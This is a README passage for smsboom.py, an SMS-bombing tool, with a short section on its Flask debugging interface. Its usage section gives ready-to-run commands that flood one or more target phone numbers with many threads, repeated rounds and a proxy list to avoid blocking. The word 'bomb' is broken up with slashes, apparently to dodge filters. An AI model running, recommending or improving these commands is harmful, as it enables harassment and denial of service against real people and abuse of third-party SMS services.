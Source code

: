 启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒

```shell
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60 -i 30
```

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```shell
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60 -i 30 -e
```

启动64个线程,轰//炸多个人的手机号(198xxxxxxxx,199xxxxxxxx),启动循环轰//炸, 轮番轰炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```shell
python smsboom.py run -t 64 -p 198xxxxxxxx -p 199xxxxxxxx -f 60 -i 30 -e
```

## Development

程序提供接口调试工具，但目前还不完善，欢迎前端大佬 PR。  
调试工具以 `Flask` 为后端，`vue` 为前端，实现前后端分离。  
目前只有测试接口，添加接口的功能。

### Flask 前端调试

> **前提是已经根据前文 Quick Start 的方式安装好 pipenv 环境**

```shell
pipenv shell # 激活虚拟环境
python run_flask_app.py start -p 9090 # 监听9090端口
提示ModuleNotFoundError: No module named 'xxx' 可使用pip install model_name
```

**运行帮助:**
```shell
Usage: run_flask_app.py [OPTIONS] COMMAND [ARGS]...

Options:
  --help  Show this message and exit.

Commands:
  init         初始化数据库
  json2sqlite  将json数据转为sqlite数据库
  sqlite2json  将sqlite数据转为json
  start        启动 flask app
```

```shell
Usage: run_flask_app.py start [OPTIONS]

  启动 flask app

Options:
  -h, --host TEXT     监听地址
  -p, --port INTEGER  监听端口
  --help              Show this message and exit.
```
